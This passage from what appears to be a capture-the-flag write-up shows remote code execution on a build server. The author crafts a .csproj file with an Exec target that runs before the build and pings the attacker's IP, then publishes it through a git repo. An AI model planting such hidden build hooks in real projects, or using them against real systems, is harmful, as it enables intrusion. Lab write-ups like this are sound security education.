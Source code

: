 
we get some interesting information :

```bash
MSBuild executable path = "C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\msbuild.exe"
Command line arguments = ""C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\msbuild.exe" C:\Windows\Temp\a3456c8d89599e67eddcb59e159a43 /p:OutDir=C:\xampp\htdocs\uploads\a3456c8d89599e67eddcb59e159a43 /fileLogger /fileLoggerParameters:LogFile=C:\xampp\htdocs\uploads\a3456c8d89599e67eddcb59e159a43\build.output "
Current directory = "C:\Windows\System32\WindowsPowerShell\v1.0"
MSBuild version = "17.6.3+07e294721"
Included response file: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\MSBuild.rsp

SolutionDir=C:\Windows\Temp\a3456c8d89599e67eddcb59e159a43\;
```

Searching internet for "csproj msbuild execute system command" leads to : [https://learn.microsoft.com/en-us/visualstudio/msbuild/exec-task?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/msbuild/exec-task?view=vs-2022)

We can add targets that could execute some system commands. This can be executed on some events : [https://learn.microsoft.com/en-us/visualstudio/msbuild/target-build-order?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/msbuild/target-build-order?view=vs-2022)

We can execute our command with :

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <RootNamespace>visual_hello</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

	<!-- Begin addition -->
	<Target Name="HuuuuWhatsThatThing" BeforeTargets="Build">
	    <Exec Command="ping 10.10.14.23"/>
	</Target>
	<!-- ENd addition -->

</Project>
```

When executed, we would get a ping back to our host. Let's push it to git :

```shell
git add . ; git commit -m "text" ; git push
```

And update the server :

```shell
git --bare update-server-info ; updog
```
